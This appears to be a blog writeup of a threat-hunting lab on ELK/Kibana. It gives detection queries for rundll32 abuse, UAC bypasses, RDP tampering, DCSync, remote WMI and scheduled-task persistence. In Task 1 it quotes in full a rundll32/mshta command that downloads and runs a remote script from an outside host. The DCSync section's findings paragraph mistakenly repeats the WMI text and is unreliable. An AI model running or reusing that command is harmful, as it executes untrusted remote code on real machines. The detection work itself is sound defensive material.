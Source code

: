 ```yaml
---
title: Hunting With ELK 2
categories: [Writeup threat_hunting]
tags: [eLearn, threat_hunting, elk, kibana, siem]
---
```

# Scenario 
**Resolvn Threat Hunting Virtual Machine (RTHVM)**

The IT Security manager provided you with simulated malicious activity and has asked you to create hunting detection techniques for all of it.

## Task 1. Hunt for malicious use of rundll32
By employing the sigma rules win_susp_rundll32_activity.yml rules, we can effectively detect and identify processes associated with the malicious utilization of rundll32.

```
((process.args:("*javascript\:*" OR "*.RegisterXLL*")) OR ((process.args:"*url.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*url.dll*" AND process.args:"*OpenURLA*")) OR ((process.args:"*url.dll*" AND process.args:"*FileProtocolHandler*")) OR ((process.args:"*zipfldr.dll*" AND process.args:"*RouteTheCall*")) OR ((process.args:"*shell32.dll*" AND process.args:"*Control_RunDLL*")) OR ((process.args:"*shell32.dll*" AND process.args:"*ShellExec_RunDLL*")) OR ((process.args:"*mshtml.dll*" AND process.args:"*PrintHTML*")) OR ((process.args:"*advpack.dll*" AND process.args:"*LaunchINFSection*")) OR ((process.args:"*advpack.dll*" AND process.args:"*RegisterOCX*")) OR ((process.args:"*ieadvpack.dll*" AND process.args:"*LaunchINFSection*")) OR ((process.args:"*ieadvpack.dll*" AND process.args:"*RegisterOCX*")) OR ((process.args:"*ieframe.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*shdocvw.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*syssetup.dll*" AND process.args:"*SetupInfObjectInstallAction'*")) OR ((process.args:"*setupapi.dll*" AND process.args:"*InstallHinfSection*")) OR ((process.args:"*pcwutl.dll*" AND process.args:"*LaunchApplication*")) OR ((process.args:"*dfshim.dll*" AND process.args:"*ShOpenVerbApplication*")))
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2.jpg){: width="972" height="589" }

```
cmd.exe, /C, rundll32.exe, javascript:\..\mshtml,RunHTMLApplication ;document.write();h=new%%20ActiveXObject(WScript.Shell).run(mshta https://hotelesms.com/talsk.txt,0,true);
```

The query yielded 8 hits that involve the misuse of rundll32.exe. The initial instance shows the execution of code from the internet, where rundll32.exe is utilized to run a JavaScript script downloaded from a remote website  hotelsms[.]com/talsk[.]txt [ref](https://attack.mitre.org/techniques/T1218/011/)

## Task 2. Hunt for UAC Bypass leveraging cliconfg.exe
UAC bypass technique that leverages cliconfg.exe. We can utilize Sysmon event ID 7, focusing on the process executable for cliconfg.exe, and filter for the file path of the "NTWDBLIB.dll" dynamic-link library (DLL) file, commonly known as the "SQL Server Client Library." [ref](https://attack.mitre.org/techniques/T1548/002/)

```
event.id: 7 AND process.executable : cliconfg.exe AND file.path : *NTWDBLIB.dll*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-1.jpg){: width="972" height="589" }
  
We have successfully obtained one match based on our query, revealing the UAC bypass involving cliconfig.exe. Furthermore, by filtering the process ID of the event, which is 880, we gain insights into the specific tool employed by the threat actor.


![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-2.jpg){: width="972" height="589" }


Upon further examination, it becomes evident that the threat actor has employed a UAC bypass technique known as [WinPwnage](https://github.com/rootm0s/WinPwnage#uac-bypass-techniques),  with a flag option of -i 11 which relies on token manipulation. Token manipulation is a method utilized to modify user access tokens, which are security descriptors containing information about a user's privileges and group memberships.  [ref](https://attack.mitre.org/techniques/T1548/002/)


## Task 3. Hunt for RDP settings tampering
To initiate the hunt for RDP settings tampering, we can begin our query by filtering for the process executable "netsh.exe" Additionally, we should include an "add rule" for capturing specific event details that may be indicative of RDP settings manipulation.

```
(((process.executable:"*\\netsh.exe") OR (winlog.event_data.OriginalFileName:"netsh.exe")) AND (process.args:"*\ firewall\ *" AND process.args:"*\ add\ *"))
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-3.jpg){: width="972" height="589" }
The query returned one hit, the threat actor used the "netsh" command to add a firewall rule named "Remote Desktop" with TCP port 3389 allowed for inbound traffic. This could potentially grant unauthorized access through RDP. [ref](https://attack.mitre.org/techniques/T1021/001/)

## Task 4. Hunt for DCSync
Hunting for DCSync, we can use sigma rule DCSync. The rule searches for event ID 4662, which is often related to permissions modifications in Active Directory. To eliminate common legitimate accounts, it excludes user names ending with "*" and specific built-in accounts such as "AUTHORITY" and "Window." The rule focuses on objects with properties matching the DCSync schema identifier (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2) or objects related to replication (object.properties:Replicating). 

```
event.id:4662 AND NOT (user.name:*$ OR user.name:AUTHORITY OR user.name:Window) AND (object.properties:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 OR object.properties:Replicating)
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-4.jpg){: width="972" height="589" }
With our query, we obtained three hits, suggesting the presence of Remote WMI Usage technique. these process being used could potentially indicate attempts by threat actors to leverage WMI for remote code execution or to gather system information from the target systems. [ref](https://d3fend.mitre.org/offensive-technique/attack/T1003.006/)

## Task 5. Hunt for Remote WMI Usage
To hunt for the Remote WMI Usage technique, we can begin by focusing on event ID 4648 and filtering for the process parent name of "WMIC.exe." This combination can help us identify potential instances where WMI (Windows Management Instrumentation) is being used remotely.

```
event.id : 4648 and process.parent.name : *wmi*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-5.jpg){: width="972" height="589" }


With our query, we obtained three hits, suggesting the presence of Remote WMI Usage technique. The three instances of the "WMIC.exe" process being used could potentially indicate attempts by threat actors to leverage WMI for remote code execution or to gather system information from the target systems. [ref](https://attack.mitre.org/techniques/T1047/)


## Task 6. Hunt for persistence through scheduled Tasks
To begin hunting for persistence through scheduled tasks, we will initiate our query by focusing on process name "schtasks" and Sysmon event ID 1, which indicates process creation. 
```
 process.name:schtasks AND event.id:1
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-6.jpg){: width="972" height="589" }
Based on the query, we obtained one hit that reveals the usage of the "schtasks" process to create a scheduled task. This scheduled task creation indicates a potential persistence mechanism used by threat actors to execute a suspicious file ("mshta.exe") from the system's "System32" directory with a command-line argument from an external URL ("hxxps[://]hotelesms[.]com/Injection[.]txt") every 6 minutes when a user logs on. [ref](https://attack.mitre.org/techniques/T1218/005/ )

## Task 7. Hunt for UAC Bypass leveraging SDCLT.EXE
The SDCLT UAC bypass takes advantage of the fact that SDCLT.exe is a trusted Microsoft application that is not subject to UAC prompts. Attackers can leverage this behavior to execute arbitrary code with elevated privileges, potentially allowing them to perform unauthorized actions on the system, compromise its security, and gain persistence.
To hunt for UAC bypass leveraging SDCLT.exe, we can start by focusing on the process with the executable name "sdclt.exe" and filtering for arguments containing "kickoffelev". 

```
process.executable : sdclt.exe AND process.args : *kickoffelev*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-7.jpg){: width="972" height="589" }

The presence of one hit indicates the usage of "sdclt.exe" with the argument "kickoffelev." The argument "kickoffelev" is associated with a specific UAC bypass technique known as the "[SDCLT UAC bypass.](https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/)" [ref](https://pentestlab.blog/2017/06/09/uac-bypass-sdclt/)

## Reference 
- <https://github.com/RESOLVN/RTHVM> 
- <https://attack.mitre.org/techniques/T1218/011/>
- <https://attack.mitre.org/techniques/T1548/002/>
- <https://github.com/rootm0s/WinPwnage#uac-bypass-techniques>
- <https://attack.mitre.org/techniques/T1021/001/>
- <https://d3fend.mitre.org/offensive-technique/attack/T1003.006/>
- <https://attack.mitre.org/techniques/T1047/>
- <https://attack.mitre.org/techniques/T1218/005/>
- <https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/>
- <https://pentestlab.blog/2017/06/09/uac-bypass-sdclt/> 
- https://github.com/Neo23x0/sigma/blob/master/rules/windows/builtin/win_dcsync.yml